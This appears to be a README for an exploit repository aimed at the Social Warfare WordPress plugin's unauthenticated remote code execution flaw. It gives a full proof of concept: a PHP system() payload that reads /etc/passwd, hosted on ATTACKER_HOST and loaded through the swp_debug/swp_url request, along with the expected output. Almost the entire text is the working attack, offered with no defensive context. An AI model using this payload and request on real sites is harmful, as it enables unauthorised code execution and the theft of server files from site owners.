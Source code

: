 # RCE-Social-Warfer

This Is For Social Warfer RCE Exploit
https://wpvulndb.com/vulnerabilities/9259
Description	
Unauthenticated remote code execution has been discovered in functionality that handles settings import.
Proof of Concept	
1. Create payload file and host it on a location accessible by a targeted website. Payload content : "<pre>system('cat /etc/passwd')</pre>"

2. Visit http://WEBSITE/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt

3. Content of /etc/passwd will be returned
